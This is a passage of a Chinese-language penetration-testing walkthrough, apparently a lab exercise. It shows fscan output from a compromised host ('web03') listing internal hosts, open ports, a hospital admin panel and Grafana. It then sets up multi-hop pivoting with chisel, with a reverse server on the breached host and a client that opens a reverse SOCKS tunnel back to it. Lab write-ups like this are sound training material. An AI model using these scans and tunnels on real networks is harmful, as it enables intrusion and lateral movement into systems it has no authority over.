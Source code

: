 ```bash
root@web03:/# ./fscan -h 172.30.54.179/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.30.54.179   is alive
(icmp) Target 172.30.54.12    is alive
[*] Icmp alive hosts len is: 2
172.30.54.179:8009 open
172.30.54.12:22 open
172.30.54.179:22 open
172.30.54.12:3000 open
172.30.54.12:5432 open
172.30.54.179:8080 open
[*] alive ports len is: 6
start vulscan
[*] WebTitle http://172.30.54.179:8080 code:200 len:3964   title:医院后台管理平台
[*] WebTitle http://172.30.54.12:3000  code:302 len:29     title:None 跳转 url: http://172.30.54.12:3000/login
[*] WebTitle http://172.30.54.12:3000/login code:200 len:27909  title:Grafana
```

发现另一个域用户，但是这个不同于之前的网段，因此我们需要搭建多层代理。

### 多层代理搭建

我们的第一层代理是 VPS 作为服务端，外网靶机作为客户端来搭建的，那么我们在搭建第二层的话，以外网靶机作为服务端，然后以域用户二作为客户端，此时就实现了多层代理

```bash
VPS->外网靶机->域用户 2->域用户 3
```

所以接下来直接在外网靶机上搭建服务端，指令如下

```bash
./chisel server -p 7001 --reverse
```

[![](assets/1706771111-ac71cb22600ba86cb7d0904019234a8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173842-30baa0d6-be8a-1.png)

再在域用户二上搭建客户端

```bash
./chisel client 172.30.12.5:7001 R:0.0.0.0:7000:socks
```
